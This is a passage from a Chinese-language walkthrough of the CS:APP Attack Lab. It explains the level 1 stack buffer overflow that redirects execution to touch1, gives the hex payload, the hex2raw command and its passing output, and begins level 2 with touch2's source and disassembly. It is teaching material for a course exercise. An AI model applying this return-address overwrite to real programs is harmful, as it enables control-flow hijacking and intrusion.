 ```
  4017e7:	e8 54 f6 ff ff       	callq  400e40 <exit@plt>
```

在level1中我们需要通过CI让test执行时跳转到touch1中，而程序的跳转和rsp寄存器有关，一开始rsp给了0x28的空间供getbuf栈帧使用，但如果getbuf输入了40字节以上，就会将父帧test的状态破坏。基于这个原理，我们处理方式也比较简单直接，首先用随意内容填充前40字节，再追加touch1的入口地址，这样当getbuf返回时，rsp会将该地址弹出到pc，从而成功执行touch1的代码。由于touch1最后直接exit了，所以我们无需关心进入touch1之后发生的事情。

另外，为了方便我们填充字节，lab提供了一个16进制转换工具，我们按照附录示例方式写入即可，写入方式也挺多样的。

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 /* 40个空白字符 */
c0 17 40 00 00 00 00 00 /* 目标touch1入口地址 */
```

```bash
[root@MiWiFi-R4A-srv target1]# ./hex2raw < ctarget.l1.txt | ./ctarget -q
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 00 00 00 00
```

另外，Intel 8086系列都是小端对齐的，也就是低地址放低位，如0x00000000004017c0，c0在最低位所以应该放在地址最小的位置，也就是起始位置。这里可能不好想象，比如一台64位机器，栈上每层都是8字节，我的ctarget.l1.txt也是按这种方式排列的，便于参考阅读。

## 2.level2

```c
void touch2 (unsigned val)
{
	vlevel = 2; /* Part of validation protocol */
	if (val == cookie) {
		printf("Touch2!: You called touch2(0x%.8x)\n", val);
		validate(2);
	} else {
		printf("Misfire: You called touch2(0x%.8x)\n", val);
		fail(2);
	}
	exit(0);
}
```

```
00000000004017ec <touch2>:
  4017ec:	48 83 ec 08          	sub    $0x8,%rsp
  4017f0:	89 fa                	mov    %edi,%edx
  4017f2:	c7 05 e0 2c 20 00 02 	movl   $0x2,0x202ce0(%rip)        # 6044dc <vlevel>
  4017f9:	00 00 00 
	...
```
